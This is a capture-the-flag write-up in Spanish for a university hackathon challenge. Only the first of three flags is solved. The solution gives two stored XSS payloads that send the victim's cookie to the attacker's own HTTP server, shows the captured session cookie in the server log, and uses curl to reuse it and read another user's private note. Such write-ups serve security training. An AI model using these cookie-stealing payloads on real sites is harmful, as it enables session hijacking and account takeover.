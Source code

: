 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` y dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**

```html
<!-- esta primera puede buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 


### Flag 3


